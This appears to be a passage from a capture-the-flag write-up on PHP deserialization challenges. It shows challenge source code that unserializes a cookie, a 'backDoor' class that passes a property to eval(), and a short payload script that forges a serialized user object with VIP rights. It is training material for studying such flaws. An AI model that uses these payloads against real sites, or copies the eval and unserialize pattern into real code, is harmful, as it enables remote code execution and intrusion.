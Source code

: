 ```php
public function vipOneKeyGetFlag(){ 
        if($this->isVip){ 
            global $flag; 
            if($this->username!==$this->password){
```

保证输入的username和序列化的一样并且和原来的password不一样。

payload:
```php
<?php
class ctfShowUser{
	public $username='xxxxxx';
    public $password='a'; 
    public $isVip=true;
}
echo serialize(new ctfShowUser);
?>

?username=xxxxxx&password=a
```

---
# 257
```php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
```